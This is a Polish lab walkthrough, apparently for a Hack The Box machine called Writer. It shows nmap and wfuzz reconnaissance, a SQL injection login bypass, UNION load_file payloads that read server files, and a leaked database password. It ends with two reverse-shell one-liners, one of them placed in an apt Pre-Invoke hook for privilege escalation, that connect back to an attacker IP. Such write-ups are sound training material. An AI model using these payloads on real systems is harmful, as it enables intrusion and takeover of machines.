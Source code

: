 # ZTPPt

## Utworzenie połączenia z maszyną
Pobrany został plik konfiguracyjny OpenVPN na maszynę wirtualną z zainstalowanym systemem Kali Linux. Komenda do wywołania połaczenia VPN:
```
sudo openvpn lab.vpn
```

## Przebieg laboratorium
* Pierwszym krokiem było wykorzystanie oprogramowania nmap w celu rekonensanu aktywnego, użyto w tym celu komendy:
```
sudo nmap -sS -sV -sC <ip_address>
- sS - TCP SYN skan
- sV - sprawdzenie możliwosci występowania wersji oprogramowania na otwartym porcie
- sC - wykonanie podstawowych skryptów
```
Wynik skanowania

![Wynik skanowania](https://user-images.githubusercontent.com/52716721/141511219-992c3762-5266-45f4-82fd-62ae04e1c934.png)

* Biorąc pod uwagę otwarty port 80 oraz tytuł odpowiedzi z serwera HTTP, kolejne kroki będą prowadzone na stronie WWW, prezentującej się następująco
![Stronawww](https://user-images.githubusercontent.com/52716721/141511808-81ba4197-1cfd-4d19-9234-3433a15dec20.png)

* W celu znalezienia interesujących podstron, wykorzystane zostało wbudowane narzędzie wfuzz z atakiem słownikowym:
```
wfuzz -w /usr/share/wfuzz/wordlist/general/megabeast.txt -u http://10.10.11.101/FUZZ --hc 404
- w - ścieżka do słownika z podstronami
- u - adres strony z dodatkiem FUZZ w celu skanowania
- hc 404 - pominięcie podstron z odpowiedzią 404
```
Wynik skanowania wfuzz

![wfuzz](https://user-images.githubusercontent.com/52716721/141513351-5ff7381f-e698-43fc-89c7-81208a4f3e6c.png)

* Na stronie dostępny jest panel logowania administratora, pierwszym krokiem zostało sprawdzenie czy zadziała SQLi w tym celu użyto w polu loginu frazy `username ' or '1'='1`. Logowanie powiodło się, następnie wykorzystano sqlmap w celu sprawdzenia jaka jest skonfigurowana baza danych i użyto danych z formularza do logowania `uname=username'+or+'1'='1&password=test`.
Wynik prezentuje się następująco:

![image](https://user-images.githubusercontent.com/52716721/143478884-83138642-c297-49ad-b8b9-b0a13311ad73.png)

![image](https://user-images.githubusercontent.com/52716721/141533062-d4f0b4b6-4639-486f-bd20-947c012012d5.png)
![image](https://user-images.githubusercontent.com/52716721/141533167-0eb874b8-da4b-470f-af05-8a3f6688f1bd.png)
![image](https://user-images.githubusercontent.com/52716721/141533938-7c74d7bb-2572-46cb-9c1b-6d3e69b38044.png)
![image](https://user-images.githubusercontent.com/52716721/143478354-b7a9d660-18e8-4735-8002-3e3601dabfc1.png)
uname=username' UNION ALL SELECT NULL,load_file("/etc/apache2/sites-enabled/000-default.conf"),NULL,NULL,NULL,NULL-- -&password=test
uname=username' UNION ALL SELECT NULL,load_file("/var/www/writer.htb/writer.wsgi"),NULL,NULL,NULL,NULL-- -&password=test
![image](https://user-images.githubusercontent.com/52716721/143478809-566682a5-ca8f-4eb5-a72b-a2b08fc40f60.png)
![image](https://user-images.githubusercontent.com/52716721/143479464-bab8af2c-5c28-4e29-bc21-90d08b245957.png)
![image](https://user-images.githubusercontent.com/52716721/143479566-63bc8a3a-1baa-404d-bb12-aa454b7ced0a.png)
connector = mysql.connector.connect(user=&#39;admin&#39;, password=&#39;ToughPasswordToCrack&#39;, host=&#39;127.0.0.1&#39;, database=&#39;writer&#39;)
![image](https://user-images.githubusercontent.com/52716721/143593570-4da314d9-aa10-49db-b95c-724f8ad3a44f.png)
![image](https://user-images.githubusercontent.com/52716721/143593639-a6682460-2692-498d-8c02-b000b1827bf3.png)
![image](https://user-images.githubusercontent.com/52716721/143597265-0dc3a738-8d06-4216-8612-f284a6a84b5a.png)
![image](https://user-images.githubusercontent.com/52716721/143599339-fb5de575-7cf1-4538-8bd8-96eab3fa917c.png)
![image](https://user-images.githubusercontent.com/52716721/144602561-4c26a048-5eaa-4fde-b787-32728e26c41a.png)
![image](https://user-images.githubusercontent.com/52716721/144603794-74501dc2-49bb-4cc8-9b3c-7da20e586c01.png)
![image](https://user-images.githubusercontent.com/52716721/144605156-a1f146cf-b493-4508-95da-f531e2ffb9d5.png)
![image](https://user-images.githubusercontent.com/52716721/144605193-ac75e000-499d-4180-932f-8f7f1cda4ca0.png)
![image](https://user-images.githubusercontent.com/52716721/144605209-7044ad3a-a873-4c82-839c-72419f0c3088.png)
![image](https://user-images.githubusercontent.com/52716721/144605478-496530d0-d519-4d03-b875-6a1f7427ec16.png)
![image](https://user-images.githubusercontent.com/52716721/144605507-4d6e177b-6f35-4a40-b73a-b2c3f1724f88.png)
![image](https://user-images.githubusercontent.com/52716721/144605856-11d72409-960a-4db4-b594-a08a2f4a88dd.png)
![image](https://user-images.githubusercontent.com/52716721/144606001-356798db-63d1-410d-80f7-bea6f41b5354.png)
![image](https://user-images.githubusercontent.com/52716721/144606016-8f5f427c-607b-4b3c-b29d-79cced652c14.png)
echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.113/9091 0>&1"' | base64
https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.113 4444 >/tmp/f"};' > pwn
![image](https://user-images.githubusercontent.com/52716721/144607092-e7cf791d-4725-4600-8777-a2528130858d.png)
![image](https://user-images.githubusercontent.com/52716721/144607190-4eaa5b07-7777-4eda-8404-74a5b0b4d29b.png)








